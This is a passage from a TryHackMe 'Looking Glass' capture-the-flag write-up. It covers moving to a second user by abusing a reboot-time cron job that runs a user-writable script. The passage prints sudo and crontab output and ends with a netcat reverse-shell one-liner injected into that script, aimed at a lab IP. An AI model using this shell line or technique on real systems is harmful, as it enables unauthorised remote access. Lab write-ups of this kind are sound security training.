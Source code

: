 <p class="message">
💡 [Hint]: the flag has been reversed. To read the original flag → use <strong>rev</strong>:
</p>

```
┌──(kali㉿kali)-[~/TryHackMe/LookingGlass]
└─$ cat user.txt | rev
thm{REDACTED}
```

### Second user

Use the common technique to enumerate the escalate privilege’s information:

```
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```

```
jabberwock@looking-glass:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

Explain the above information:

- `/etc/crontab`: the bash script `twasBrillig.sh` would be automatically execute as **tweedledum**’s permission everytime the system reboot
- `sudo -l`: the current user **jabberwock** has the permission to reboot the system as **root** user

Therefore, I could inject the `twasBrilligh.sh` with my own reverse shell:

```
jabberwock@looking-glass:~$ cat twasBrillig.sh
#!/bin/bash
wall $(cat /home/jabberwock/poem.txt)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.63.75 1234 >/tmp/f
```
